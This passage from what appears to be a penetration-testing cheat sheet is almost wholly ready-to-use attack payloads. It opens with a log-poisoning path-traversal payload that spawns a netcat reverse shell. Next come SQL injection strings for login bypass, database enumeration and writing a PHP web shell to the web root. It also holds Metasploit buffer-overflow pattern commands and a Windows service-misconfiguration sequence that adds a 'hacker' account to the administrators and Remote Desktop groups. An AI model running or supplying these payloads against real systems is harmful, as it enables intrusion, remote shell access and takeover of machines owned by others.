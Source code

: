 	&cmd=nc -nv <[IP]> <[PORT]> -e cmd.exe&LANG=../../../../../../../xampp/apache/logs/access.log%00

# SQL Injection

<b>Bse:</b>

	any' or 1=1 limit 1;--

<b>Number of columns:</b>

	order by 1, order by 2, ...

<b>Expose data from database:</b>

	UNION select 1,2,3,4,5,6

<b>Enum tables:</b>

	UNION select 1,2,3,4,table_name,6 FROM information_schema.tables

<b>Shell upload:</b>

	<[IP]>:<[PORT]>/<[URL]>.php?<[PARAMETER]>=999 union select 1,2,"<?php echo shell_exec($_GET['cmd']);?>",4,5,6 into OUTFILE '/var/www/html/evil.php'

# Buffer Overflow

	/usr/share/metasploit-framework/tools/pattern_create.rb <[LENGTH]>

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -<[ADDRESS]>

# Privilege Escalation

<b>Vulnerable Services</b>

	accesschk.exe -uwcqv "Authenticated Users" * /accepteula

	sc qc <[VULNERABLE_SERVICE]>

	sc config <[VULNERABLE_SERVICE]> obj= ".\LocalSystem" password= ""

	sc config <[VULNERABLE_SERVICE]> start= "auto"

	sc config <[VULNERABLE_SERVICE]> binpath= "net user hacker Hacker123 /add"

	sc stop <[VULNERABLE_SERVICE]>

	sc start <[VULNERABLE_SERVICE]>

	sc config <[VULNERABLE_SERVICE]> binpath= "net localgroup administrator hacker /add"

	sc stop <[VULNERABLE_SERVICE]>

	sc start <[VULNERABLE_SERVICE]>

	sc config <[VULNERABLE_SERVICE]> binpath= "net localgroup \"Remote Desktop Users\" hacker /add"

	sc stop <[VULNERABLE_SERVICE]>
